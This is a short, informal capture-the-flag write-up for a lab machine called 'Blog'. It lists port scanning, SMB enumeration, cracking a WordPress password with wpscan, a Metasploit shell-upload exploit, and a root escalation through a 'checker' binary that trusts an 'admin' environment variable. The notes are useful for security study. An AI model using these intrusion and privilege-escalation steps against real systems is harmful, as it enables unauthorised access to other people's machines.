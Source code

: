 # Blog

**CTF Domain: Blog.ctf**

## Scans

```rustscan -a Blog.ctf```


## Eumeration

SMB on port 445

`smbclient //Blog.ctf/BillySMB`

Cracking password of kwheel using wpscan:

```
[!] Valid Combinations Found:
 | Username: kwheel, Password: $PASSWORD
```

## Exploitation

Metasploit "WordPress Crop-image Shell Upload" works with kwheel credentials

user.txt gives message "TRY HARDER"

Termination PDF states removable media policy, maybe try to find a USB device attached with user flag?

Not enough time, will try again later


## Privilege Escalation

Initially tried to find user credentials, such as in the Wordpress MYSQL instance

```
define('DB_NAME', 'blog');
define('DB_USER', 'wordpressuser');
define('DB_PASSWORD', '$PASSWORD');
define('DB_HOST', 'localhost');

unix  2      [ ACC ]     STREAM     LISTENING     23176    /var/run/mysqld/mysqld.sock
```

It kept giving me errors though, and I doubted there was anything useful in there

Media folder contains usb folder, can't access with current privs, maybe try to pivot to bjoel?

Interesting file, "checker"

```
www-data@blog:/usr/sbin$ ./checker
./checker
Not an Admin
```

ltrace shows us that it's looking for a "admin" variable, currently set to nil

```
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
www-data@blog:/usr/sbin$ export admin=true
export admin=true
www-data@blog:/usr/sbin$ ./checker
./checker
root@blog:/usr/sbin#
```

Exporting "admin=true" gives us root!
